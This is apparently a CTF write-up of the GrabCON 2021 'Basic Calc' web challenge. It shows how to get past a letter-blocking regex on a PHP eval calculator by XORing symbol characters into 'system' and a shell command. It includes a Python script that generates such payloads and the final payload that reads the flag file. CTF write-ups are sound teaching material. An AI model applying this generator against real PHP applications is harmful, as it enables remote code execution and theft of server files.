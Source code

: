 # ## Basic Calc
## Description

Ever used calc based on php?
## Solution
First we open that web page
![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_1.jpg)
Look at the code, we need to bypass the condition that not match regex : ``[A-Za-z`]`` . Since ``eval — Evaluate a string as PHP code``, we can inject a strings to become a code execution.

To bypass input above, we use a `XOR` technique. For example :
```php
A XOR B = C
B XOR C = D

# we can try in php
# For example:
<?php
 echo ('3'^'@'); # output = s
 echo ('9'^'@'); # output = y
 echo ('3'^'@'); # output = s
 echo ('4'^'@'); # output = t
 echo ('8'^']').('2'^'_'); # concat strings

 #ouput = system
?>
```
So how can we know that output? So we decide to create a python script to convert ``strings to XOR code``
or ``generate a xor code from strings``.

```python
# except reqular expression : A-Za-z`
# php print xor example : echo ("A"^"B")
# system execute example:
# <?php
# echo ("system(ls -la)"); #it will execute as strings
# echo ("system")("ls -la"); #it will execute as symbols #magic
# ?>

string_code = ['system','cat /flagggg.txt']
obfuscated_code = ""
charset = "1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"

for code in string_code:
    obfuscated = ""
    for i in code:
        is_found_obfuscated = False
        for j in charset:
            for k in charset:
                if ord(j)^ord(k) == ord(i):
                    is_found_obfuscated = True
                    obfuscated += ".('%s'^'%s')" % (j, k)
                    #print("XOR ="+chr(ord(j)^ord(k)))
                if is_found_obfuscated:
                    break
            if is_found_obfuscated:
                break
        if not is_found_obfuscated:
            obfuscated += ".'%s'" % i
    #print("(%s) = (%s)" % (code, obfuscated[1:]))
    obfuscated_code += "(%s)" % obfuscated[1:]
print(''.join(["(\"%s\")" % i for i in string_code]) + '=' + obfuscated_code)
```
Explain code above:

 1. suppose flagggg.txt location is at ``/`` directory. So we want php to execute code ``system("cat /flagggg.txt"``
 2. list all the chars that not match the regex. For example:``charset ="1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"``
 3. Since ``echo ("system(ls -la)");`` will execute as strings but ``echo ("system")("ls -la");`` will execute as symbols, so we need to seperate them. In python script above we convert them to a list which we store in `string_code` variable.
 4. looping to find ``XOR code`` of each chars that we compared
 5. print all ``XOR code`` that equal the chars in each of index `string_code` variable

```python
Ouput:
("system")("cat /flagggg.txt") = (('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('2'^'_'))(('8'^'[').('!'^'@').('4'^'@').('^'^'~').'/'.('8'^'^').('1'^']').('!'^'@').('8'^'_').('8'^'_').('8'^'_').('8'^'_').'.'.('4'^'@').('8'^'@').('4'^'@'))
```

So now go back to the web page and try to input.

![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_3.jpg)

We got flag!

